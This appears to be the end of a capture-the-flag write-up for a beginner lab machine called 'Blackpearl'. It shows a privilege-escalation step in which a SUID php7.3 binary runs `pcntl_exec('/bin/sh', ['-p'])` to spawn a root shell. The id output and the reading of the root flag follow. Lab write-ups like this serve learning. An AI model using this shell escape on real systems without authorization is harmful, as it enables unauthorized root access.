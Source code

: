 ![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/e533e2df7d4cc0ba9152e971ddaafd7f1534e672/Blackpearl/images/Screenshot%202024-08-15%20144445.png)

Copy the line of code you see don't execute !
```
./php -r "pcntl_exec('/bin/sh', ['-p']);"

./php -r: Runs a PHP script directly from the command line.

"pcntl_exec('/bin/sh', ['-p']);": Uses the pcntl_exec function to execute /bin/sh (a shell) with the -p flag, which may keep privileges.

This is a one liner code to generate a shell

``` 

Now you can use this by going to the location where you found the php7.3
which is :
```
/usr/bin/php7.3 
```
```
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```
And that's it
```
# id 
uid =33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)

```
we are **root!**
```
# cd /root

# cat flag.txt

Good job on this one
Finding the domain name may have been a little guessy,
but the goal of this box is mainly to teach Virtual Host Routing which is used in a lot of CTF

```
Done ! 


```
2 Down 4 to go
```

